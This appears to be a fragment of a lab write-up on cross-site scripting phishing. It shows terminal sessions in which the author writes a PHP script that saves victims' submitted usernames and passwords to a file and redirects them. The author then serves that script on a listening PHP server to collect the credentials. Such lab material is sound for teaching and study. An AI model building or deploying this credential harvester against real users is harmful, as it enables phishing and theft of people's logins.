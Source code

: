 ![Firefox - Login Form Injection](./assets/screenshots/cross_site_scripting_firefox_login_form_injection.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ mkdir /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ cd /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ vim index.php

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.255.155/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8080
[Fri May 30 03:45:14 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8080) started

[CONTINUE]
```

![Firefox - Login URL Send](./assets/screenshots/cross_site_scripting_firefox_login_url_send.png)
